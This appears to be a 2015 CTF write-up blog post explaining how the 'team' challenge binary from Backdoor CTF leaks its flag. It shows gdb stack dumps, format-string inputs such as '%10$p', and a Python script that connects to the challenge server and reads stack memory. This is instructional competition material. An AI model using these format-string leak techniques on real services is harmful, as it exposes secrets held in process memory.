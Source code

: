 ```yaml
---
layout: post
title: "Backdoor CTF 2015 Team"
date: 2015-04-02 16:17:21 -0400
author: [barrebas]
comments: true
categories: [backdoor]
---
```


### Solved by barrebas

Backdoor CTF was hosted on a weekday, so we only had the evening to grab as many flags as we could. Here's how we solved `team` for 600 points.

The binary we've been given is a 32-bit ELF. The output of strings doesn't give us much. Using `strace ./team`, it becomes clear that the binary reads from `flag.txt` so I created one locally. I echoed `flag1` to the file and restarted the binary.

It asks for a team name and a flag. After receiving these values in heap buffers (non-overflowable as far as I could gather) it proceeds to read the flag from `flag.txt`. Then, it compares the user input to the flag using `strcmp`. 

The team name is then printed using `printf`: this is vulnerable to a format string vulnerability:

```
bas@tritonal:~/tmp/bckdr/team-600$ ./team
Enter teamname: TEAM%llp
Enter flag: FLAG%llp
TEAM0x64 : incorrect flag. Try again.
```

Okay, so let's have a look at the stack when we reach `printf`. It gets called at `8048711` to print the team name.

```
Breakpoint 1, 0x08048711 in ?? ()
gdb-peda$ x/40wx $esp
0xffffd510: 0x0804b008  0x00000064  0x0804b140  0x00000000
0xffffd520: 0x00000000  0x00000000  0x0804b0d8  0x0804b008
0xffffd530: 0x00000000  0x0804b140  0x67616c66  0x00000031
0xffffd540: 0x00000000  0x00000000  0x00000000  0x00000000
0xffffd550: 0x00000000  0x00000000  0x00000000  0x00000000
0xffffd560: 0x00000000  0x00000000  0x00000000  0x00000000
0xffffd570: 0x00000000  0x00000000  0x00000000  0x00000000
0xffffd580: 0x00000000  0x00000000  0x00000000  0x00000000
0xffffd590: 0x00000000  0x00000002  0x00000000  0x856b7a00
0xffffd5a0: 0x00000000  0x00000000  0xffffd5d8  0x0804880c
```

What's this then? From breakpointing `strcmp`, I learned that the flag was on the stack. In fact, it's within reach of the format string vulnerability!

```
0xffffd530: 0x00000000  0x0804b140  0x67616c66  0x00000031
                          flag1 >>>   g a l f           1
```

That's too easy, right? Wrong! The flag starts at `%10$p`:

```bash
bas@tritonal:~/tmp/bckdr/team-600$ ./team
Enter teamname: %10$p
Enter flag: bleh
0x67616c66 : incorrect flag. Try again.
```

It worked remotely with this script:


```python
from socket import *
import struct, telnetlib, re, sys

def readtil(delim):
    buf = b''
    while not delim in buf:
        buf += s.recv(1)
    return buf

def sendln(b):
    s.send(b + b'\n')

def sendbin(b):
    s.sendall(b)

def p(x):
    return struct.pack('<L', x & 0xffffffff)
    
def pwn(n):
    global s
    s=socket(AF_INET, SOCK_STREAM)
    s.connect(('hack.bckdr.in', 8004))
    
    readtil('teamname: ')
    sendln("AAAA%"+str(n)+"$p")
    readtil('flag: ')
    sendln("CTF_TEAM_VULNHUB")
    data = readtil('again.')

    s.close()
    m = re.findall(r'0x([0-9a-f]*) :', data)
    return m[0]
    
full = ''
for i in xrange(10, 30):
    full += pwn(i).decode('hex')[::-1]
    print full
```

This spits out the flag until it hits something it can't hex decode. Because the CTF is long-lived, we won't post any flags. 

Far too easy for a 600 point challenge, but we're not complaining...


